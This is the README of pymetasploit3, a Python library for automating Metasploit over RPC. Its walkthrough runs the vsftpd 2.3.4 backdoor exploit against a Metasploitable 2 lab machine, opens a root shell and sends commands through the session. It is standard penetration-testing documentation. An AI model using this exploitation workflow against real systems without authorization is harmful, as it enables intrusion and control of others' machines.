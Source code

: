 Pymetasploit3
=======

Pymetasploit3 is a full-fledged Python3 Metasploit automation library. It can interact with Metasploit either through msfrpcd or the msgrpc plugin in msfconsole.

# Original library: pymetasploit

This is an updated and improved version of the Python2 pymetasploit library by allfro.

Original project  : https://github.com/allfro/pymetasploit

# Installation

    git clone https://github.com/DanMcInerney/pymetasploit3
    cd [Download path]/pymetasploit3
    pipenv install --three
    pipenv shell
    pip3 install pymetasploit3

# Basic Usage

## Starting Metasploit RPC server

### Msfconsole
This will start the RPC server on port 55552 as well as the Metasploit console UI
```bash
$ msfconsole
msf> load msgrpc [Pass=yourpassword] 
```
### msfrpcd
This will start the RPC server on port 55553 and will just start the RPC server in the background
```bash
$ msfrpcd -P yourpassword
```

## RPC client

### Connecting to `msfrpcd`

```python
>>> from pymetasploit3.msfrpc import MsfRpcClient
>>> client = MsfRpcClient('yourpassword')
```
### Connecting to `msfconsole` with `msgrpc` plugin loaded

```python
>>> from pymetasploit3.msfrpc import MsfRpcClient
>>> client = MsfRpcClient('yourpassword', port=55553)
```

### MsfRpcClient

The `MsfRpcClient` class provides the core functionality to navigate through the Metasploit framework. Use 
```dir(client)``` to see the callable methods.

```python
>>> [m for m in dir(client) if not m.startswith('_')]
['auth', 'authenticated', 'call', 'client', 'consoles', 'core', 'db', 'jobs', 'login', 'logout', 'modules', 'plugins',
'port', 'server', 'token', 'sessions', 'ssl', 'uri']
>>>
```

Like the metasploit framework, `MsfRpcClient` is segmented into different management modules:

* **`auth`**: manages the authentication of clients for the `msfrpcd` daemon.
* **`consoles`**: manages interaction with consoles/shells created by Metasploit modules.
* **`core`**: manages the Metasploit framework core.
* **`db`**: manages the backend database connectivity for `msfrpcd`.
* **`modules`**: manages the interaction and configuration of Metasploit modules (i.e. exploits, auxiliaries, etc.)
* **`plugins`**: manages the plugins associated with the Metasploit core.
* **`sessions`**: manages the interaction with Metasploit meterpreter sessions.

### Running an exploit

Explore exploit modules:

```python
>>> client.modules.exploits
['windows/wins/ms04_045_wins', 'windows/winrm/winrm_script_exec', 'windows/vpn/safenet_ike_11',
'windows/vnc/winvnc_http_get', 'windows/vnc/ultravnc_viewer_bof', 'windows/vnc/ultravnc_client', ...
'aix/rpc_ttdbserverd_realpath', 'aix/rpc_cmsd_opcode21']
>>>
```

Explore other modules:

```python
>>> client.modules.auxiliary
...
>>> client.modules.encoders
...
>>> client.modules.nops
...
>>> client.modules.payloads
...
>>> client.modules.post
...
```

Create an exploit module object:

```python
>>> exploit = client.modules.use('exploit', 'unix/ftp/vsftpd_234_backdoor')
>>>
```

Explore exploit information:

```python
>>>  print(exploit.description)

          This module exploits a malicious backdoor that was added to the	VSFTPD download
          archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between
          June 30th 2011 and July 1st 2011 according to the most recent information
          available. This backdoor was removed on July 3rd 2011.

>>> exploit.authors
[pymetasploit3, pymetasploit3]
>>> exploit.options
['TCP::send_delay', 'ConnectTimeout', 'SSLVersion', 'VERBOSE', 'SSLCipher', 'CPORT', 'SSLVerifyMode', 'SSL', 'WfsDelay',
'CHOST', 'ContextInformationFile', 'WORKSPACE', 'EnableContextEncoding', 'TCP::max_send_size', 'Proxies',
'DisablePayloadHandler', 'RPORT', 'RHOST']
>>> exploit.missing_required # Required options which haven't been set yet
['RHOST']
>>>
```

Let's use a [Metasploitable 2](http://sourceforge.net/projects/metasploitable/) instance running on a VMWare
machine as our exploit target. It's running our favorite version of vsFTPd - 2.3.4 - and we already have our exploit
module loaded. Our next step is to specify our target:

```python
>>> exploit['RHOST'] = '172.16.14.145' # IP of our target host
>>>
```

Select a payload:

```python
>>> exploit.targetpayloads()
['cmd/unix/interact']
>>>
```

At this point, this exploit only supports one payload (`cmd/unix/interact`). So let's pop a shell:

```python
>>> exploit.execute(payload='cmd/unix/interact')
{'job_id': 1, 'uuid': '3whbuevf'}
>>>
```

We know the job ran successfully because `job_id` is `1`. If the module failed to execute for any reason, `job_id` would
 be `None`. If we managed to pop our box, we might see something nice in the sessions list:

```python
>>> client.sessions.list
{1: {'info': '', 'username': 'jsmith', 'session_port': 21, 'via_payload': 'payload/cmd/unix/interact',
'uuid': '5orqnnyv', 'tunnel_local': '172.16.14.1:58429', 'via_exploit': 'exploit/unix/ftp/vsftpd_234_backdoor',
'exploit_uuid': '3whbuevf', 'tunnel_peer': '172.16.14.145:6200', 'workspace': 'false', 'routes': '',
'target_host': '172.16.14.145', 'type': 'shell', 'session_host': '172.16.14.145', 'desc': 'Command shell'}}
>>>
```

### Interacting with the shell
Create a shell object out of the session number we found above and write to it:

```python
>>> shell = client.sessions.session('1')
>>> shell.write('whoami')
>>> print(shell.read())
root
>>>
```

Run the same `exploit` object as before but wait until it completes and gather it's output:

```python
>>> cid = client.consoles.console().cid # Create a new console and store its number in 'cid'
>>> print(client.consoles.console(cid).run_module_with_output(exploit, payload='cmd/unix/interact'))
# Some time passes
'[*] 172.16.14.145:21 - Banner: 220 vsFTPd 2.3.4
[*] 172.16.14.145:21 - USER: 331 Please specify the password
...
'

```

`client.sessions.session('1')` has the same `.write('some string')` and `.read()` methods, but running session commands and
 waiting until they're done returning output isn't as simple as console commands. The Metasploit RPC server will return 
 a `busy` value that is `True` or `False` with `client.consoles.console('1').is_busy()` but determining if a 
 `client.sessions.session()`  is done running a command requires us to do it by hand. For this purpose we will use a 
 list of strings that, when any one is found in the session's output, will tell us that the session is done running 
 its command. Below we are running the `arp` command within a meterpreter session. We know this command will return one 
 large blob of text that will contain the characters `----` if it's successfully run so we put that into a list object. 
 
 ```python
>>> session_id = '1'
>>> session_command = 'arp'
>>> terminating_strs = ['----']
>>> client.sessions.session(session_id).run_with_output(session_command, terminating_strs)
# Some time passes
'\nARP Table\n                  ---------------\n  ...`
```

One can also use a timeout and simply return all data found before the timeout expired. `timeout` defaults to 
Metasploit's comm timeout of 300s and will throw an exception if the command timed out. To change this, set 
 `timeout_exception` to `False` and the library will simply return all the data from the session output it found before
 the timeout expired.
 ```python
>>> session_id = '1'
>>> session_command = 'arp'
>>> terminating_strs = ['----']
>>> client.sessions.session(session_id).run_with_output(session_command, terminating_strs, timeout=10, timeout_exception=False))
# 10s pass
'\nARP Table\n                  ---------------\n  ...`
```

### More examples

Many other usage examples can be found in the `example_usage.py` file.

# Contributions

I highly encourage contributors to send in any and all pull requests or issues. Thank you to allfro for writing
the original pymetasploit library.
